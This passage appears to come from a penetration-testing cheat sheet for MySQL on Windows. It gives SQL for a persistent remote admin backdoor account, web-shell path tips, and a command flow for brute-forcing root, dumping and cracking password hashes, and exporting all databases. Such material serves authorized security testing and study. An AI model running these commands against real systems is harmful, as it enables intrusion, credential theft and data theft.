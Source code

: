 Persistence (DB-level, if allowed):
```sql
-- Create a remote-access admin user (e.g., for follow-up testing)
CREATE USER 'audit'@'%' IDENTIFIED BY 'Str0ngP@ss!';
GRANT ALL PRIVILEGES ON *.* TO 'audit'@'%' WITH GRANT OPTION;
FLUSH PRIVILEGES;
```

Cleanup (good practice):
```sql
-- Remove test shells/users you created
DROP USER 'audit'@'%';
-- If you wrote a file:
-- DELETE or remove it at the OS level (outside the DB) after engagement concludes.
```

## Practical tips
- MySQL on Windows often ships in stacks (XAMPP, WAMP). Default root with empty password is common in older/lab setups; test it first.
- Use Windows-style paths with forward slashes or escaped backslashes: C:/Windows/win.ini or C:\\Windows\\win.ini.
- secure_file_priv controls where LOAD_FILE/OUTFILE operate. If set to a directory, you can only read/write there.
- Test read access safely with C:/Windows/win.ini before attempting sensitive files.
- For web shells, you must know the active webroot and stack (IIS vs Apache; PHP installed?). Typical paths:
  - XAMPP: C:/xampp/htdocs/
  - IIS default: C:/inetpub/wwwroot/ (ASP/ASPX, not PHP unless configured)
- MySQL 8+ often uses caching_sha2_password; old hash-cracking approaches may not apply.
- Respect account lockout policies; throttle brute force (Hydra -t) and consider time-based delays.
- When using mysqldump, add --single-transaction to reduce locking on InnoDB.

## Minimal cheat sheet (one-screen flow)
```bash
# 1) Discover
nmap -sV -sC -p3306 TARGET
nmap -p3306 --script mysql-info,mysql-variables,mysql-empty-password TARGET

# 2) Try creds
mysql -h TARGET -P 3306 -u root
mysql -h TARGET -P 3306 -u root -p

# 3) Brute (if allowed)
hydra -l root -P /usr/share/wordlists/rockyou.txt -s 3306 -f -o hydra_mysql.txt -t 4 TARGET mysql

# 4) Login and enum
mysql -h TARGET -P 3306 -u USER -p -e "SELECT VERSION(); SHOW DATABASES; SHOW VARIABLES LIKE 'secure_file_priv'; SHOW GRANTS FOR CURRENT_USER();"

# 5) File read (Windows)
mysql -h TARGET -P 3306 -u USER -p -e "SELECT LOAD_FILE('C:/Windows/win.ini');"

# 6) Dump users/hashes
mysql -h TARGET -P 3306 -u USER -p -e "SELECT host,user,plugin,authentication_string FROM mysql.user;"

# 7) Crack (MySQL 4.1+/5.x)
hashcat -m 300 -a 0 mysql_hashes.txt /usr/share/wordlists/rockyou.txt --username

# 8) Data exfil
mysqldump -h TARGET -P 3306 -u USER -p --all-databases --single-transaction > all_dbs.sql
```
